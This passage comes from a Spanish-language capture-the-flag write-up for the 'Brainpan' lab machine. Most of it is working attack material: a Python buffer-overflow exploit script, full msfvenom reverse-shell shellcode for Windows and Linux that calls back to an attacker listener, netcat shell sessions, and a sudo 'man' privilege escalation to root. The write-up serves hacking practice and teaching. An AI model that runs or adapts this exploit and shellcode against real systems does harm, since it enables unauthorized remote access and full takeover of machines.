b"\x3c\xd1\xb7\x84\xd7\x28\x50\x6b\x8f\xad\x20\x03\xd2\xd1"
b"\x31\x88\x5b\x37\x5b\x20\x0a\xe0\xf4\xd9\x17\x7a\x64\x25"
b"\x82\x07\xa6\xad\x21\xf8\x69\x46\x4f\xea\x1e\xa6\x1a\x50"
b"\x88\xb9\xb0\xfc\x56\x2b\x5f\xfc\x11\x50\xc8\xab\x76\xa6"
b"\x01\x39\x6b\x91\xbb\x5f\x76\x47\x83\xdb\xad\xb4\x0a\xe2"
b"\x20\x80\x28\xf4\xfc\x09\x75\xa0\x50\x5c\x23\x1e\x17\x36"
b"\x85\xc8\xc1\xe5\x4f\x9c\x94\xc5\x4f\xda\x98\x03\x26\x02"
b"\x28\xfa\x7f\x3d\x85\x6a\x88\x46\xfb\x0a\x77\x9d\xbf\x2b"
b"\x9a\x37\xca\xc3\x03\xd2\x77\x8e\xb3\x09\xbb\xb7\x37\xbb"
b"\x44\x4c\x27\xce\x41\x08\xef\x23\x38\x01\x9a\x43\xef\x22"
b"\x8f")
try:
    print("Enviando Payload")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((ip, port))
    s.send(message + payload + b'\r\n')
    s.recv(1024)
    time.sleep(1)

except:
    print("no se puede conectar al servidor")
    sys.exit()
```

Si todo ha salido bien, si nos ponemos en escucha con nc debes el desbordamiento de Buffer resulto y obtenemos acceso al equipo.

```bash
python3 bof.py 
Enviando
```

Probamos si podemos acceder a laboratorio de prueba de BoF.

```shell
rlwrap nc -nvlp 4444 
listening on [any] 4444 ...
connect to [192.168.159.128] from (UNKNOWN) [192.168.159.134] 49215
Microsoft Windows [Versi�n 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

C:\Users\rodrigo\Desktop\brainpan>whoami
whoami
win-vd633hun67h\rodrigo

C:\Users\rodrigo\Desktop\brainpan>
```

Debemos cambiar el Scrip para ingresar al equipo de THM

Generar Payload con msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.244.36 LPORT=4444 EXITFUNC=thread -b "\x00" -f c  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] = 
"\xd9\xea\xd9\x74\x24\xf4\xbd\x92\x5d\xa2\x17\x58\x31\xc9"
"\xb1\x52\x83\xc0\x04\x31\x68\x13\x03\xfa\x4e\x40\xe2\x06"
"\x98\x06\x0d\xf6\x59\x67\x87\x13\x68\xa7\xf3\x50\xdb\x17"
"\x77\x34\xd0\xdc\xd5\xac\x63\x90\xf1\xc3\xc4\x1f\x24\xea"
"\xd5\x0c\x14\x6d\x56\x4f\x49\x4d\x67\x80\x9c\x8c\xa0\xfd"
"\x6d\xdc\x79\x89\xc0\xf0\x0e\xc7\xd8\x7b\x5c\xc9\x58\x98"
"\x15\xe8\x49\x0f\x2d\xb3\x49\xae\xe2\xcf\xc3\xa8\xe7\xea"
"\x9a\x43\xd3\x81\x1c\x85\x2d\x69\xb2\xe8\x81\x98\xca\x2d"
"\x25\x43\xb9\x47\x55\xfe\xba\x9c\x27\x24\x4e\x06\x8f\xaf"
"\xe8\xe2\x31\x63\x6e\x61\x3d\xc8\xe4\x2d\x22\xcf\x29\x46"
"\x5e\x44\xcc\x88\xd6\x1e\xeb\x0c\xb2\xc5\x92\x15\x1e\xab"
"\xab\x45\xc1\x14\x0e\x0e\xec\x41\x23\x4d\x79\xa5\x0e\x6d"
"\x79\xa1\x19\x1e\x4b\x6e\xb2\x88\xe7\xe7\x1c\x4f\x07\xd2"
"\xd9\xdf\xf6\xdd\x19\xf6\x3c\x89\x49\x60\x94\xb2\x01\x70"
"\x19\x67\x85\x20\xb5\xd8\x66\x90\x75\x89\x0e\xfa\x79\xf6"
"\x2f\x05\x50\x9f\xda\xfc\x33\xaa\x13\x0a\xe7\xc2\x21\xf2"
"\xf9\x4e\xaf\x14\x93\x7e\xf9\x8f\x0c\xe6\xa0\x5b\xac\xe7"
"\x7e\x26\xee\x6c\x8d\xd7\xa1\x84\xf8\xcb\x56\x65\xb7\xb1"
"\xf1\x7a\x6d\xdd\x9e\xe9\xea\x1d\xe8\x11\xa5\x4a\xbd\xe4"
"\xbc\x1e\x53\x5e\x17\x3c\xae\x06\x50\x84\x75\xfb\x5f\x05"
"\xfb\x47\x44\x15\xc5\x48\xc0\x41\x99\x1e\x9e\x3f\x5f\xc9"
"\x50\xe9\x09\xa6\x3a\x7d\xcf\x84\xfc\xfb\xd0\xc0\x8a\xe3"
"\x61\xbd\xca\x1c\x4d\x29\xdb\x65\xb3\xc9\x24\xbc\x77\xe9"
"\xc6\x14\x82\x82\x5e\xfd\x2f\xcf\x60\x28\x73\xf6\xe2\xd8"
"\x0c\x0d\xfa\xa9\x09\x49\xbc\x42\x60\xc2\x29\x64\xd7\xe3"
"\x7b";
```

Cambiamos Script de python

```python
import socket
import sys
import time

ip = "10.201.55.82"
port = 9999
timeout = 5

message = b"A" * 524 + b"\xf3\x12\x17\x31" +b"\x90" * 16

payload = (b"\xd9\xea\xd9\x74\x24\xf4\xbd\x92\x5d\xa2\x17\x58\x31\xc9"
b"\xb1\x52\x83\xc0\x04\x31\x68\x13\x03\xfa\x4e\x40\xe2\x06"
b"\x98\x06\x0d\xf6\x59\x67\x87\x13\x68\xa7\xf3\x50\xdb\x17"
b"\x77\x34\xd0\xdc\xd5\xac\x63\x90\xf1\xc3\xc4\x1f\x24\xea"
b"\xd5\x0c\x14\x6d\x56\x4f\x49\x4d\x67\x80\x9c\x8c\xa0\xfd"
b"\x6d\xdc\x79\x89\xc0\xf0\x0e\xc7\xd8\x7b\x5c\xc9\x58\x98"
b"\x15\xe8\x49\x0f\x2d\xb3\x49\xae\xe2\xcf\xc3\xa8\xe7\xea"
b"\x9a\x43\xd3\x81\x1c\x85\x2d\x69\xb2\xe8\x81\x98\xca\x2d"
b"\x25\x43\xb9\x47\x55\xfe\xba\x9c\x27\x24\x4e\x06\x8f\xaf"
b"\xe8\xe2\x31\x63\x6e\x61\x3d\xc8\xe4\x2d\x22\xcf\x29\x46"
b"\x5e\x44\xcc\x88\xd6\x1e\xeb\x0c\xb2\xc5\x92\x15\x1e\xab"
b"\xab\x45\xc1\x14\x0e\x0e\xec\x41\x23\x4d\x79\xa5\x0e\x6d"
b"\x79\xa1\x19\x1e\x4b\x6e\xb2\x88\xe7\xe7\x1c\x4f\x07\xd2"
b"\xd9\xdf\xf6\xdd\x19\xf6\x3c\x89\x49\x60\x94\xb2\x01\x70"
b"\x19\x67\x85\x20\xb5\xd8\x66\x90\x75\x89\x0e\xfa\x79\xf6"
b"\x2f\x05\x50\x9f\xda\xfc\x33\xaa\x13\x0a\xe7\xc2\x21\xf2"
b"\xf9\x4e\xaf\x14\x93\x7e\xf9\x8f\x0c\xe6\xa0\x5b\xac\xe7"
b"\x7e\x26\xee\x6c\x8d\xd7\xa1\x84\xf8\xcb\x56\x65\xb7\xb1"
b"\xf1\x7a\x6d\xdd\x9e\xe9\xea\x1d\xe8\x11\xa5\x4a\xbd\xe4"
b"\xbc\x1e\x53\x5e\x17\x3c\xae\x06\x50\x84\x75\xfb\x5f\x05"
b"\xfb\x47\x44\x15\xc5\x48\xc0\x41\x99\x1e\x9e\x3f\x5f\xc9"
b"\x50\xe9\x09\xa6\x3a\x7d\xcf\x84\xfc\xfb\xd0\xc0\x8a\xe3"
b"\x61\xbd\xca\x1c\x4d\x29\xdb\x65\xb3\xc9\x24\xbc\x77\xe9"
b"\xc6\x14\x82\x82\x5e\xfd\x2f\xcf\x60\x28\x73\xf6\xe2\xd8"
b"\x0c\x0d\xfa\xa9\x09\x49\xbc\x42\x60\xc2\x29\x64\xd7\xe3"
b"\x7b")

try:
    print("Enviando Payload")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((ip, port))
    s.send(message + payload + b'\r\n')
    s.recv(1024)
    time.sleep(1)

except:
    print("no se puede conectar al servidor")
    sys.exit()
```



No podemos acceder como root, la máquina es un poco extraña ya que ganamos un consola de windows pero los directorios en la maquina parece que es un máquina Linux.

```bash
Z:\bin>uname -a

Z:\bin>Linux brainpan 3.5.0-25-generic #39-Ubuntu SMP Mon Feb 25 19:02:34 UTC 2013 i686 i686 i686 GNU/Linux
```


## Exploit

Vamos a modificar msfvenom pero para crear un payload para Linux

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.9.244.36 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] = 
"\xbe\x7d\xec\x9d\x79\xda\xd1\xd9\x74\x24\xf4\x5f\x33\xc9"
"\xb1\x12\x31\x77\x12\x83\xc7\x04\x03\x0a\xe2\x7f\x8c\xc5"
"\x21\x88\x8c\x76\x95\x24\x39\x7a\x90\x2a\x0d\x1c\x6f\x2c"
"\xfd\xb9\xdf\x12\xcf\xb9\x69\x14\x36\xd1\x63\xef\x3c\x05"
"\x1c\xed\xbc\x54\x80\x78\x5d\xe6\x5e\x2b\xcf\x55\x2c\xc8"
"\x66\xb8\x9f\x4f\x2a\x52\x4e\x7f\xb8\xca\xe6\x50\x11\x68"
"\x9e\x27\x8e\x3e\x33\xb1\xb0\x0e\xb8\x0c\xb2";
```

Modificamos nuestro Scrip nuevamente

```python
import socket
import sys
import time

ip = "10.201.55.82"
port = 9999
timeout = 5

message = b"A" * 524 + b"\xf3\x12\x17\x31" +b"\x90" * 16

payload = (b"\xbe\x7d\xec\x9d\x79\xda\xd1\xd9\x74\x24\xf4\x5f\x33\xc9"
b"\xb1\x12\x31\x77\x12\x83\xc7\x04\x03\x0a\xe2\x7f\x8c\xc5"
b"\x21\x88\x8c\x76\x95\x24\x39\x7a\x90\x2a\x0d\x1c\x6f\x2c"
b"\xfd\xb9\xdf\x12\xcf\xb9\x69\x14\x36\xd1\x63\xef\x3c\x05"
b"\x1c\xed\xbc\x54\x80\x78\x5d\xe6\x5e\x2b\xcf\x55\x2c\xc8"
b"\x66\xb8\x9f\x4f\x2a\x52\x4e\x7f\xb8\xca\xe6\x50\x11\x68"
b"\x9e\x27\x8e\x3e\x33\xb1\xb0\x0e\xb8\x0c\xb2")

try:
    print("Enviando Payload")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((ip, port))
    s.send(message + payload + b'\r\n')
    s.recv(1024)
    time.sleep(1)

except:
    print("no se puede conectar al servidor")
    sys.exit()
```

nos ponemos en escucha con nc

```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.9.244.36] from (UNKNOWN) [10.201.55.82] 54229
whoami
puck
uname -a
Linux brainpan 3.5.0-25-generic #39-Ubuntu SMP Mon Feb 25 19:02:34 UTC 2013 i686 i686 i686 GNU/Linux
ifconfig
eth0      Link encap:Ethernet  HWaddr 16:ff:d3:b1:76:17  
          inet addr:10.201.55.82  Bcast:10.201.127.255  Mask:255.255.128.0
          inet6 addr: fe80::14ff:d3ff:feb1:7617/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:181825 errors:0 dropped:0 overruns:0 frame:0
          TX packets:179378 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:9270316 (9.2 MB)  TX bytes:13540591 (13.5 MB)
          Interrupt:74 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

Cargamos un bash para mejor manejo de la terminal


```bash
stty size
nc -nvlp 443

script /dev/null -c bash
ctrl+z
stty raw -echo; fg
	reset xterm

# maquina pwned
export TERM=xterm
export SHELL=bash
stty rows 52 columns 208
```

## Privilege Escalation

Tenemos permisos como root de algunas cosas, pero solo funciona el manual


En gtfobins podemos encontrar como escalar privilegios como root

[gtfobins man](https://gtfobins.github.io/gtfobins/man/)



```bash
sudo /home/anansi/bin/anansi_util manual whoami

root@brainpan:/usr/share/man# whoami
root
root@brainpan:/usr/share/man# 
```

```bash
root@brainpan:~# cat b.txt 
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|


                                              http://www.techorganic.com 
```